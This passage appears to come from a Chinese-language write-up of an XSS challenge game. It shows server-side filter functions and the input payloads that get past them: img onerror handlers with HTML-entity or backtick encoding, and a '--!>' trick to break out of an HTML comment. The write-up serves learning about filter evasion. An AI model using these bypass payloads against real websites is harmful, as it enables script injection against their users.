 Input Code

```html
<!-- HTML标签使用实体字符绕过 -->
<img src="" onerror="alert&#40;&#49;&#41;" />
<!-- 使用反引号绕过 -->
<img src="" onerror="alert`1`" />
```

HTML

```html
<img src="" onerror="alert&#40;&#49;&#41;" /> <img src="" onerror="alert`1`" />
```

## 0x04

正则替换了小括号和反引号，使用 HTML 编码绕过

Server Code

```js
function render(input) {
  const stripBracketsRe = /[()`]/g;
  input = input.replace(stripBracketsRe, "");
  return input;
}
```

Input Code

```html
<img src="" onerror="alert&#40;&#49;&#41;" />
```

HTML

```html
<img src="" onerror="alert&#40;&#49;&#41;" />
```

## 0x05

使用`--!>`闭合掉注释标签，换行只是个人习惯

Server Code

```js
function render(input) {
  input = input.replace(/-->/g, "😂");
  return "<!-- " + input + " -->";
}
```

Input Code

```html
--!> <img src="" onerror="alert&#40;&#49;&#41;" />
```
